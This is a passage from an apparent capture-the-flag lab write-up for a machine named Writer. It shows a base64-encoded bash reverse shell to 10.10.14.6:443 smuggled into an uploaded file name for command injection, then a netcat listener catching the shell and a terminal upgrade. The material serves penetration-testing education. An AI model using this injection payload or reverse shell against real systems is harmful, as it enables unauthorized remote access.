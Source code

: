 
#### Shell

To get a shell, I’ll modify the file name:

    
    
    oxdf@parrot$ echo 'bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"' | base64 
    YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxIgo=
    oxdf@parrot$ touch 'test.jpg; echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxIgo=|base64 -d|bash;'
    

I’ll upload that file by editing a post, and verify it’s on Writer:

[![image-20211201212327224](https://0xdfimages.gitlab.io/img/image-20211201212327224.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20211201212327224.png)

Now I’ll modify the request in Burp to get that by url:

![image-20211201212618719](https://0xdfimages.gitlab.io/img/image-20211201212618719.png)

With `nc` listening, I’ll send that, and a shell comes back:

    
    
    oxdf@parrot$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.101 51182
    bash: cannot set terminal process group (1051): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@writer:/$ 
    

I’ll do a shell upgrade:

    
    
    www-data@writer:/$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, file is /dev/null
    www-data@writer:/$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@parrot$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@writer:/$ 
    

## Shell as kyle

### Enumeration

#### writer2_project

In `/var/www` there are three folders:
